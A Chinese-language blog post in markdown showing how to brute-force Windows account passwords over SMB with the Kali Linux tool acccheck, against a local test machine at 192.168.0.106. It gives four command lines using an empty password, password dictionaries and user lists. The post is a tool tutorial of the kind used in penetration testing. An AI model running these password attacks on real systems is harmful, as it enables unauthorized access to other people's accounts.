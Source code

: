 ```yaml
---
layout: post
title: Kali Linux使用acccheck破解Windows用户密码(SMB协议)
---
```


acccheck是设计用来破解使用SMB协议的Windows用户密码。

> SMB是一种网络通信协议,使用SMB协议可以实现不同类型设备之间数据传递。例如,文件、打印机共享也是基于这个协议。

acccheck就是使用perl包装了smbclient命令；

它使用暴力破解的方式试出Windows用户密码。

******

### 一个简单的例子：

* 打开共享的Windows一台；IP，192.168.0.106：

![acccheck]({{ site.baseurl }}/images/2016/4/Screenshot-20162018.PNG)

* Kali Linux：

![acccheck]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-20 18-34-08.png)

尝试使用Administrator，空密码：

{% highlight shell %}
# acccheck -t 192.168.0.106
{% endhighlight %}

尝试使用Administrator，密码字典：

{% highlight shell %}
# acccheck -t 192.168.0.106 -P password.txt
{% endhighlight %}

尝试使用用户文件，密码字典：

{% highlight shell %}
# acccheck -t 192.168.0.106 -U user.txt -P password.txt
{% endhighlight %}

使用字典破解一个用户：

{% highlight shell %}
# acccheck -t 192.168.0.106 -u tian -P dic.txt
{% endhighlight %}

结果保存在cracked文件中：

![acccheck]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-20 19-07-34.png)
